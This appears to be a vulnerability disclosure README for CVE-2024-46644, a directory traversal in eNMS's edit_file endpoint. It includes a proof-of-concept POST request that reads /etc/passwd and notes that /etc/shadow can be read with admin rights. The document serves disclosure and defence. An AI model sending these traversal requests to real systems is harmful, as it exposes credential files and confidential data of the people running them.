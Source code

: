 # **CVE-2024-46644**


# Details
* **Vulnerability Type**: eNMS 4.4.0 < 4.7.1 Directory Traversal via edit_file
* **Affected Application**: eNMS
* **Affected Versions**: 4.4.0 < 4.7.1
* **Affected Component**: /edit_file/>[DIR]>[FILE]
* **Impact**: Unauthorized access to sensitive files, potential exposure of confidential information.

# PoC
##  ```POST /edit_file/>[DIR]>[FILE]```

Reading ```/etc/passwd``` file

```
POST /edit_file/>etc>passwd
```

![image](img/edit_file.png)


If the user you are logged in with within the application is an ```admin``` , you have read access with root privileges as you can see from the example below:
<br/><br/>
Reading ```/etc/shadow``` file (depending on the process execution rights)

![image](img/442.png)

# References
https://nvd.nist.gov/vuln/detail/CVE-2024-46644 <br>
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-46644 <br>
# Credits
**Andrea Pessione** and **Manuel Scala** - SK IT Cyber Security<br></br>
<a href="https://sk-it.com/"><img src="img/skit_logo.png" width="300">
